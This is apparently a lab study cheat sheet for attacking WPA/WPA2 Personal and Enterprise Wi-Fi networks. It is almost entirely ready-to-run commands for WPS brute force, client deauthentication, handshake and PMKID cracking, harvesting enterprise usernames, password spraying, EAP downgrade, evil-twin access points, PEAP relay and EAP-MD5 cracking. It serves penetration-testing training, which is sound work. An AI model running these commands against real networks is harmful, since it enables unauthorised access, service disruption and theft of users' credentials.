

# Attacking WPA/WPA2 Wi-Fi Networks

> **Purpose:** Complete, structured reference for attacking WPA/WPA2 Personal and Enterprise networks.  
> **Audience:** Students and red teamers performing WPA/WPA2 assessments in controlled labs.

---

## Overview Workflow



---

## 1. WPA Personal Overview

### Wireshark Display Filters

|Purpose|Filter|
|---|---|
|Beacon|`(wlan.fc.type == 0) && (wlan.fc.type_subtype == 8)`|
|Probe Request|`(wlan.fc.type == 0) && (wlan.fc.type_subtype == 4)`|
|Probe Response|`(wlan.fc.type == 0) && (wlan.fc.type_subtype == 5)`|
|Authentication|`(wlan.fc.type == 0) && (wlan.fc.type_subtype == 11)`|
|Assoc Request|`(wlan.fc.type == 0) && (wlan.fc.type_subtype == 0)`|
|Assoc Response|`(wlan.fc.type == 0) && (wlan.fc.type_subtype == 1)`|
|EAPOL|`eapol`|
|Disassoc/Deauth|`(wlan.fc.type_subtype == 12) or (wlan.fc.type_subtype == 10)`|

---

## 2. Reconnaissance and Bruteforce (WPS & WPA Personal)

### Monitor Mode & Scanning

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon -c 1 --wps
sudo wash -j -i wlan0mon
```

**Breakdown:**

- `--wps`/`wash`: detect WPS-enabled APs.
    

### Vendor Lookup

```bash
grep -i "84-1B-5E" /var/lib/ieee-data/oui.txt
```

### Manual Monitor Interface via iw

```bash
iw dev wlan0 interface add mon0 type monitor
sudo ifconfig mon0 up
```

### WPS PIN Bruteforce

```bash
sudo reaver -i mon0 -c 1 -b <BSSID>
```

---

## 3. Cracking MIC (4-Way Handshake)

### Capture Handshake

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon -c 1 -w WPA
```

### Force Handshake via Deauth

```bash
sudo aireplay-ng -0 5 -a <AP_MAC> -c <Client_MAC> wlan0mon
```

### Validate Handshake

```bash
cowpatty -c -r WPA-01.cap
```

### Crack with Cowpatty or Aircrack

```bash
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s <ESSID>
aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap
```

---

## 4. PMKID Attack

### Capture PMKID

```bash
sudo airmon-ng start wlan0
sudo hcxdumptool -i wlan0mon --enable_status=3
sudo airodump-ng wlan0mon --essid <ESSID>
```

### Targeted PMKID Capture

```bash
hcxdumptool -i wlan0mon --enable_status=3 \
  --filterlist_ap=<BSSID> --filtermode=2 -o HTBPMKID.pcap
```

### Convert + Crack

```bash
hcxpcapngtool -o hash HTBPMKID.pcap
hashcat -m 22000 --force hash /opt/wordlist.txt
hashcat -m 22000 --force hash /opt/wordlist.txt --show
```

---

## 5. WPA Enterprise Reconnaissance

### Capture Enterprise Traffic

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

### Extract Usernames

```bash
tshark -r WPA-01.cap -Y '(eap && wlan.ra == 9c:9a:03:39:bd:7a) && (eap.identity)' -T fields -e eap.identity
python2 /opt/crEAP/crEAP.py
bash /opt/pcapFilter.sh -f WPA-01.cap -C
```

### Identify Authentication Methods

```bash
sudo bash /opt/EAP_buster/EAP_buster.sh HTB-Corp 'HTB\Ketty' wlan0mon
```

---

## 6. Performing Bruteforce Attacks (Enterprise)

### Single-User Bruteforce

```bash
echo "HTB\Sentinal" > user.txt
sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -p /opt/rockyou.txt -u user.txt
```

### Password Spray

```bash
cat john.txt | awk '{print "HTB\\" $1}' > domain_users.txt
sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt
```

### Resume Spray

```bash
sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt -s 65
```

---

## 7. EAP Downgrade Attack

### Certificate Generation

```bash
openssl dhparam -out dh.pem 2048
openssl genrsa -out ca-key.pem 2048
openssl req -new -x509 -nodes -days 100 -key ca-key.pem -out ca.pem
openssl req -newkey rsa:2048 -nodes -days 100 -keyout server-key.pem -out server-key.pem
openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem
```

### Hostapd-mana / Eaphammer

```bash
sudo hostapd-mana hostapd.conf
/opt/eaphammer/eaphammer --cert-wizard
sudo /opt/eaphammer/eaphammer --interface wlan1 -negotiate balanced --auth wpa-eap --essid HTB-Corp --creds
```

---

## 8. Enterprise Evil-Twin Attack

```bash
cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
sudo hostapd-wpe -c -k hostapd-wpe.conf
/opt/eaphammer/eaphammer --cert-wizard
sudo /opt/eaphammer/eaphammer -i wlan1 -e HTB-Corp --auth wpa-eap --wpa-version 2
```

### Crack Captured NetNTLM Hash

```bash
hashcat -m 5500 -a 0 <captured_hash> wordlist.dict
```

---

## 9. PEAP Relay Attack

```bash
sudo hostapd-mana ./hostapd.conf
sudo /opt/wpa_sycophant/wpa_sycophant.sh -c wpa_sycophant.config -i wlan2
```

---

## 10. Attacking EAP-TLS Authentication

```bash
cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
cd /opt/hostapd-2.6 && patch -p1 < ../hostapd-wpe/hostapd-wpe.patch
cd /opt/hostapd-2.6/hostapd && make
sudo /opt/hostapd-2.6/hostapd/hostapd-wpe hostapd-wpe.conf
sudo python2 nagaw.py -i wlan1 -o wlan2 -t demo
```

---

## 11. Cracking EAP-MD5

### Convert Values

```bash
echo 776b900e685dea0230b41eec2010535c | sed 's/\(..\)/\1:/g;s/:$//'
echo 054ea58706a52f0c95fc47ccf11eb5a1 | sed 's/\(..\)/\1:/g;s/:$//'
```

### Crack Hash

```bash
eapmd5pass -w /opt/rockyou.txt -U administrator -C <request_challenge> -R <response_challenge> -E <request_id>
```

---

## 12. Common Scenarios

|Phase|Action|Command|
|---|---|---|
|Capture|Grab handshake|`airodump-ng -w WPA wlan0mon`|
|Force|Deauth client|`aireplay-ng -0`|
|Validate|Check handshake|`cowpatty -c`|
|Crack|WPA-Personal|`hashcat -m 22000`|
|Crack|PMKID|`hcxpcapngtool` → `hashcat`|
|Recon|Enterprise usernames|`tshark`, `crEAP`|
|Attack|Enterprise spray|`air-hammer.py`|
|Attack|Evil Twin|`hostapd-mana`, `eaphammer`|

---

## 13. Troubleshooting Tips

|Problem|Cause|Fix|
|---|---|---|
|No handshake|No client reconnect|Force deauth (`aireplay-ng -0`)|
|No PMKID|AP not vulnerable|Try handshake capture instead|
|Enterprise spray fails|Wrong domain format|Use `DOMAIN\\user`|
|Certificate errors|Wrong CA/server pairing|Regenerate cert chain|
|No usernames extracted|EAP type mismatch|Use `EAP_buster`|

---

## 14. Cross-tool Reference

|Purpose|Tool|Alternative|
|---|---|---|
|Capture PMKID|`hcxdumptool`|`Bettercap wifi`|
|Crack WPA|`hashcat`|`aircrack-ng`|
|Username extraction|`tshark`|`crEAP`|
|Evil Twin|`eaphammer`|`hostapd-mana`|
|Enterprise spray|`air-hammer.py`|Custom Python scripts|

---

### Summary

- WPA Personal relies on **handshake or PMKID capture**.
    
- WPA Enterprise attacks focus on **identity extraction, bruteforce, downgrade, or relay**.
    
- Evil Twin attacks require **proper certificates and AP impersonation**.
    
- Hashcat (mode 22000/5500/MD5 variants) is central for password cracking.